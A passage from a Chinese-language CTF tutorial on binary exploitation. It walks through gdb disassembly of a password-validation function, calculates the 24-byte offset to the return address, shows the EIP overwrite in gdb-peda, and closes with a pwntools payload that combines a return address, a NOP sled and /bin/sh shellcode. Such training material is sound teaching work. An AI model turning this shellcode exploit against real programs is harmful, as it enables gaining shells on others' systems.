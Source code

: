 ```text
   0x000005f0 <+83>:	jmp    0x604 <validate_passwd+103>
   0x000005f2 <+85>:	sub    esp,0xc
   0x000005f5 <+88>:	lea    eax,[ebx-0x190a]
   0x000005fb <+94>:	push   eax
   0x000005fc <+95>:	call   0x420 <puts@plt>
   0x00000601 <+100>:	add    esp,0x10
   0x00000604 <+103>:	nop
   0x00000605 <+104>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x00000608 <+107>:	leave  
   0x00000609 <+108>:	ret    
End of assembler dump.
```
通过阅读反汇编代码，我们知道缓冲区 `passwd_buf` 位于 `ebp=0x14` 的位置（`0x000005e4 <+71>:	lea    eax,[ebp-0x14]`），而返回地址在 `ebp+4` 的位置，所以返回地址相对于缓冲区 `0x18` 的位置。我们测试一下：
```text
gdb-peda$ r `python2 -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/a.out `python2 -c 'print "A"*24 + "B"*4 + "C"*233'`
good!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd0f4 ('A' <repeats 24 times>, "BBBB", 'C' <repeats 172 times>...)
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd490 --> 0x534c0043 ('C')
EDX: 0xffffd1f8 --> 0xffff0043 --> 0x0
ESI: 0xf7f95000 --> 0x1bbd90
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd110 ('C' <repeats 200 times>...)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd110 ('C' <repeats 200 times>...)
0004| 0xffffd114 ('C' <repeats 200 times>...)
0008| 0xffffd118 ('C' <repeats 200 times>...)
0012| 0xffffd11c ('C' <repeats 200 times>...)
0016| 0xffffd120 ('C' <repeats 200 times>...)
0020| 0xffffd124 ('C' <repeats 200 times>...)
0024| 0xffffd128 ('C' <repeats 200 times>...)
0028| 0xffffd12c ('C' <repeats 200 times>...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
可以看到 `EIP` 被 `BBBB` 覆盖，相当于我们获得了返回地址的控制权。构建下面的 payload：
```python
from pwn import *

ret_addr = 0xffffd118     # ebp = 0xffffd108
shellcode = shellcraft.i386.sh()

payload = "A" * 24
payload += p32(ret_addr)
payload += "\x90" * 20
payload += asm(shellcode)
payload += "C" * 169      # 24 + 4 + 20 + 44 + 169 = 261
```


## CTF 中的整数溢出
